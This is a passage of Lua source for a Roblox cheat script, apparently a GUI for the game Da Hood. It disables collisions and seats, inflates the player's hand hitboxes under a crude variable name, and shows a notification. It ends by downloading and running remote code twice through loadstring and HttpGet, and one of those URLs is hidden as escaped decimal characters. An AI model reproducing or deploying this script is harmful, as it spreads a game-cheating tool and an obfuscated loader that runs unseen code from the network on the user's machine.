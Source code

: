 v.CanCollide = false
v.CustomPhysicalProperties = PhysicalProperties.new(0, 0, 0, 0, 0)

end
end

for i,v in ipairs(game.workspace:GetDescendants()) do
if v:IsA("Seat") then 
v.Disabled = true
end
end
x = 35
y = 35
z = 35


penis = Vector3.new(x,y,z)

LP.Character.RightHand.Size = penis

LP.Character.RightHand.Transparency = 1
local selectionBox = Instance.new("SelectionBox",LP.Character.RightHand)
selectionBox.Adornee = LP.Character.RightHand
selectionBox.Color3 = Color3.new(1,1,1)

LP.Character.LeftHand.Size = penis
LP.Character.BodyEffects.SpecialParts.LeftHand.Size = penis

LP.Character.LeftHand.Transparency = 1
local selectionBox = Instance.new("SelectionBox",LP.Character.LeftHand)
selectionBox.Adornee = LP.Character.LeftHand
selectionBox.Color3 = Color3.new(1,1,1)
end)

local Sound = Instance.new("Sound",game:GetService("SoundService"))
Sound.SoundId = "rbxassetid://232127604"
Sound:Play()
game:GetService("StarterGui"):SetCore("SendNotification", { 
	Title = ("DH Balli Gui V4");
	Text = "Gui is supported in da hood now";
	Icon = "rbxthumb://type=Asset&id=1778351310&w=150&h=150"})
Duration = 16;

loadstring(game:HttpGet("https://raw.githubusercontent.com/BalligusapoTT/BalligusapoTT/main/Blacklist"))()

loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\49\57\72\75\69\65\80\78\10"))()
else
end
